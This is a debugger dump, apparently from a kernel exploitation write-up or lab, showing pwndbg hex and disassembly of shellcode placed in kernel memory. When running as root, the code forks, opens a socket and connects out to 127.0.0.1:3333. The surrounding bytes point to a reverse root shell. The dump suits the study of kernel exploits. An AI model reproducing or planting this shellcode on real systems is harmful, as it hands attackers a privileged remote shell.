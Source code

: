 ```
pwndbg> x/40gx 0xffffffff81e04000+0xc80
0xffffffff81e04c80:	0x0f66b0c031485390	0x75c33948db314805
0xffffffff81e04c90:	0x050f39b0c031480f	0x0974d83948db3148
0xffffffff81e04ca0:	0x050f60b0c031485b	0x6a5e016ad23148c3
0xffffffff81e04cb0:	0x48050f58296a5f02	0xfaf2fffdb9485097
0xffffffff81e04cc0:	0x51d1f748feffff80	0x2a6a5a106ae68948
0xffffffff81e04cd0:	0x3948db3148050f58	0xe7b0c031480774d8
0xffffffff81e04ce0:	0x216a5e036a90050f	0xf675050fceff4858
0xffffffff81e04cf0:	0x9dd0bb4850c03148	0xf748ff978cd09196
0xffffffff81e04d00:	0x485750e7894853d3	0x0f3bb0d23148e689
0xffffffff81e04d10:	0x050fe7b0c0314805	0xc9fff98148c46536
0xffffffff81e04d20:	0x49e4458bea773b9a	0xc085084b89491301
0xffffffff81e04d30:	0x894800000092840f	0xa5e353f7cfba48c8
0xffffffff81e04d40:	0x8948eaf74820c49b	0xfac1483ff8c148c8
0xffffffff81e04d50:	0x08538949c2294807	0x485675f68548c031
0xffffffff81e04d60:	0x5d415c415b10c483	0xffffd380058bc35d
0xffffffff81e04d70:	0x8bffffc311052b48	0x052348ffffc31b15
0xffffffff81e04d80:	0xc2af0f48ffffc30c	0xe7894cffffff5ce9
0xffffffff81e04d90:	0xfffbd7e8d8758948	0x48d1ebd8758b48ff
0xffffffff81e04da0:	0xfffffb98e8d87589	0x90f3c2ebd8758b48
0xffffffff81e04db0:	0x25158bfffffee8e9	0x21158b1689ffffc3
pwndbg> x/40i 0xffffffff81e04000+0xc80
   0xffffffff81e04c80:	nop
   0xffffffff81e04c81:	push   rbx
   0xffffffff81e04c82:	xor    rax,rax
   0xffffffff81e04c85:	mov    al,0x66
   0xffffffff81e04c87:	syscall 
   0xffffffff81e04c89:	xor    rbx,rbx
   0xffffffff81e04c8c:	cmp    rbx,rax
   0xffffffff81e04c8f:	jne    0xffffffff81e04ca0
   0xffffffff81e04c91:	xor    rax,rax
   0xffffffff81e04c94:	mov    al,0x39
   0xffffffff81e04c96:	syscall 
   0xffffffff81e04c98:	xor    rbx,rbx
   0xffffffff81e04c9b:	cmp    rax,rbx
   0xffffffff81e04c9e:	je     0xffffffff81e04ca9
   0xffffffff81e04ca0:	pop    rbx
   0xffffffff81e04ca1:	xor    rax,rax
   0xffffffff81e04ca4:	mov    al,0x60
   0xffffffff81e04ca6:	syscall 
   0xffffffff81e04ca8:	ret    
   0xffffffff81e04ca9:	xor    rdx,rdx
   0xffffffff81e04cac:	push   0x1
   0xffffffff81e04cae:	pop    rsi
   0xffffffff81e04caf:	push   0x2
   0xffffffff81e04cb1:	pop    rdi
   0xffffffff81e04cb2:	push   0x29
   0xffffffff81e04cb4:	pop    rax
   0xffffffff81e04cb5:	syscall 
   0xffffffff81e04cb7:	xchg   rdi,rax
   0xffffffff81e04cb9:	push   rax
   0xffffffff81e04cba:	movabs rcx,0xfeffff80faf2fffd
   0xffffffff81e04cc4:	not    rcx
   0xffffffff81e04cc7:	push   rcx
   0xffffffff81e04cc8:	mov    rsi,rsp
   0xffffffff81e04ccb:	push   0x10
   0xffffffff81e04ccd:	pop    rdx
   0xffffffff81e04cce:	push   0x2a
   0xffffffff81e04cd0:	pop    rax
   0xffffffff81e04cd1:	syscall 
   0xffffffff81e04cd3:	xor    rbx,rbx
   0xffffffff81e04cd6:	cmp    rax,rbx
```